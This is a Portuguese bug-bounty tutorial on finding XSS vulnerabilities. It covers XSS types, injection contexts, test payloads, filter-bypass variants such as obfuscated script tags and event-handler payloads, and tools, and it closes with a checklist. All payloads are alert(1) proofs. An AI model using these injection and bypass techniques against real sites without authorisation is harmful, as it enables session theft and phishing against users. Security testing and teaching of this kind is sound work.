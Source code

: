 ```yaml
---
title: "Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)"
date: 2025-06-10
categories: ["xss", "bug bounty", "seguranca-web", "hacking"]
---
```


# Como identificar uma vulnerabilidade de XSS (Cross-Site Scripting)

**XSS (Cross-Site Scripting)** é uma das vulnerabilidades mais comuns e mais exploradas da web. E também uma das primeiras que a galera costuma encontrar em Bug Bounty.  
Se liga nesse guia completo pra identificar XSS na prática — mesmo que você esteja começando agora.

---

## 🧠 O que é um XSS?

É quando um atacante consegue **injetar código JavaScript malicioso** dentro de uma página, que será executado no navegador da vítima.  
Com isso, dá pra:

- Roubar cookies e tokens
- Redirecionar usuários pra phishing
- Capturar dados de formulários
- Explorar outras falhas do app pelo navegador

---

## 🧪 Tipos de XSS

1. **Refletido**  
   O payload é refletido direto na resposta da requisição (ex: na URL).
2. **Armazenado**  
   O payload fica salvo no banco de dados e aparece para outros usuários.
3. **DOM-Based**  
   A injeção acontece no lado do cliente, quando o JavaScript da página manipula valores da URL, `document.location`, `innerHTML`, etc.

---

## 🔍 Como identificar um XSS

### Passo 1 – Onde seu input aparece?

Testa campos como:

- Formulários de busca
- Comentários
- Parâmetros da URL (ex: `?q=teste`)
- Inputs escondidos ou debug tools no front
- Qualquer coisa que reflita dados no HTML

Use valores como:

```
xss123
<script>1</script>
"><img src=x onerror=alert(1)>
```

Procure onde isso aparece na resposta: no corpo da página, em atributos, no JavaScript, etc.

---

### Passo 2 – Qual o contexto?

O contexto onde o valor aparece muda **como** você deve injetar. Exemplos:

| Contexto | Exemplo na resposta | Payload básico |
|---------|---------------------|----------------|
| HTML    | `<div>xss123</div>` | `<script>alert(1)</script>` |
| Atributo| `<input value="xss123">` | `" onfocus=alert(1) autofocus="` |
| JS      | `var data = "xss123";` | `";alert(1);//` |
| URL     | `<a href="?msg=xss123">` | `javascript:alert(1)` |

---

### Passo 3 – Teste com payloads

Comece com os mais simples:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
```

Se nada funcionar, tenta versões obfuscadas:

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
<scr ipt>alert(1)</scr ipt>
<svg><script>alert(1)</script></svg>
```

---

## 🛠 Ferramentas úteis

- **Burp Suite** – Intercepta e altera requisições
- **XSStrike** – Fuzzer inteligente para XSS
- **Google Chrome DevTools** – Pra ver o DOM renderizado
- **xsshunter.com** – Pra detectar execuções automáticas (armazenado ou DOM-based)

---

## 🎯 Exemplos reais de XSS

### Refletido:
```
https://site.com/search?q=<script>alert(1)</script>
```

### Armazenado:
Campo de comentário:
```html
Ótimo post! <script>alert('XSS')</script>
```
Se o admin abrir a página de comentários e o JS rodar → bingo.

### DOM-Based:
URL:
```
https://site.com/#<img src=x onerror=alert(1)>
```
Se o JS do site fizer algo como:
```js
document.body.innerHTML = location.hash;
```
➡ Isso é perigoso.

---

## 🧩 Bônus: bypasses comuns

Às vezes o site bloqueia `<script>`. Tenta alternativas:

```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<details open ontoggle=alert(1)>
<input onfocus=alert(1) autofocus>
<iframe srcdoc="<script>alert(1)</script>">
```

E em JS:
```js
'";alert(1);// 
</script><script>alert(1)</script>
```

---

## 🛡 Como saber se é de verdade?

Um XSS só é válido quando **o código malicioso é executado de fato**, e:

- Afeta outro usuário (armazenado)
- Pode ser explorado via link (refletido)
- Roda no navegador sem interação do usuário (auto-execução)

Não basta "ver o payload na tela" — tem que rodar.

---

## 📌 Checklist rápido pra identificar um XSS

- [ ] O input é refletido na resposta?
- [ ] Qual o contexto HTML? (tag, atributo, JS, etc.)
- [ ] O payload executa código?
- [ ] O filtro é fraco? Dá pra bypassar?
- [ ] Outro usuário seria afetado?

---

## 🧠 Conclusão

XSS parece simples, mas é uma das falhas mais versáteis e perigosas.  
Com prática, você aprende a **ler o DOM com olhos de atacante** e a escapar de filtros comuns.

Testa em labs, vê como os apps tratam entrada, e abusa do DevTools pra entender como tudo é construído.

Se você achou esse guia útil, compartilha.  
Se quiser um desafio XSS real, posso te mandar um lab ou quiz!

---

> “XSS é a arte de falar JavaScript com sotaque de atacante.”  
> — lxr0x64
